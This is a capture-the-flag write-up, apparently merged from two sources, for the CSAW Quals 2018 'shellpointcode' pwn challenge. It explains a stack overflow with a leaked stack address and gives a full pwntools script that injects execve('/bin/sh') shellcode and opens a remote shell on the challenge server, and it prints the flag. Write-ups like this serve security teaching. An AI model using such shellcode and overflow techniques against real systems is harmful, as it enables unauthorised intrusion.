 In `CSAW Quals 2018 - shell_code` challenge, there is a simple `stack
overflow` vulnerability that leads to code injection and eventually, execution
of `/bin/sh`. The interesting part is that you cannot provide the whole shell
code in one place; however, you need to break your shell code into 3 parts,
feed each part to the program in a different place, and connect these 3 parts
using jumps.

Original writeup (https://github.com/sajjadium/ctf-
writeups/tree/master/CSAWQuals/2018/shell_code).## shell->code 100 (Pwn)

### Solution

The binary doesn't have NX enabled, it first ask for two 15 bytes input on
stack, and then ouput the address of node2 on stack (leak), finally ask for
your initials and has a 29 bytes buffer overflow.

For these 29 bytes, the return address starts at `buf+11` and we can easily
overwrite then return to the shellcode on stack. The problem is that we have
only 15 bytes for each buffer, not sufficient for a full `execve()` shellcode,
and the leak comes after we input our shellcodes, so I can't chain the buffers
together.

Finally I put "/bin/sh" after the return address, since rsp will point to it
after return, and making the shellcode fit inside 15 bytes by simply `mov rdi,
rsp`.

### Exploit  
```python  
#!/usr/bin/env python3  
from pwn import *  
context(arch="amd64")

r = remote("pwn.chal.csaw.io", 9005)

sc = """  
   mov rdi, rsp  
   /* call execve('rsp', 0, 0) */  
   push (SYS_execve) /* 0x3b */  
   pop rax  
   xor esi, esi /* 0 */  
   cdq /* rdx=0 */  
   syscall  
"""  
r.sendline(asm(sc))  
r.sendline("x")  
r.recvuntil("node.next: ")

leak = int(r.recv(14)[2:], 16)  
r.sendline(b"a" * 11 + p64(leak + 0x28) + b"/bin/sh\x00")  
r.interactive()  
```

### Flag

```  
flag{NONONODE_YOU_WRECKED_BRO}  
```  

Original writeup (https://github.com/jaidTw/ctf-
writeups/blob/master/csaw-2018/shellpointcode.md).